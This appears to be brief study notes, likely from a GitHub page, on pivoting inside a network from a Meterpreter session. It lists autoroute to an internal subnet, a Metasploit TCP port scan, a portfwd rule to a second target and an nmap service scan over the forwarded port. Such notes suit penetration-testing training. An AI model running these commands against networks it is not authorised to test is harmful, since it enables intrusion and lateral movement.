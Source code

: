 In meterpreter 

  - __`run autoroute -s <targetip>.0/20`__

__now we are scanning for the ports__
  - __`search portscan`__
```
use auxiliary/scanner/portscan/tcp
set ports 1-100
exploit
```

portforwarding to find the what service is running on that port 
  - __`portfwd add -l 1234 -p 80 -r <target2>`__
  - > __And scan the port in your localhost__
  - __`db_nmap -sV -sS -p 1234 localhost`__
